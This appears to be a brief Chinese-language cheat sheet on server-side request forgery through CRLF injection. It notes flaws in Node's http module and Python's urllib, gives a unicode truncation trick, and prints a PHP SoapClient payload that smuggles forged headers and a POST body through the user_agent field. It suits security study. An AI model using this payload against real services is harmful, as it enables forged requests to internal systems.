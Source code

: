 # SSRF

## Node 

Node <= 8.10 的``http``存在``CRLF``注入漏洞

利用unicode截断

```
\u{ffa0} => \a0
```

## Python 

``urllib.request.urlopen()`` ``CRLF``注入

## PHP

SOAP CRLF

```php
$attack = new SoapClient(null,array('location' => $target,
                                    'user_agent'=>"eki\r\nContent-Type: application/x-www-form-urlencoded\r\n".join("\r\n",$headers)."\r\nContent-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string,
                                    'uri'      => "aaab"));
```



### 扩展资料

https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf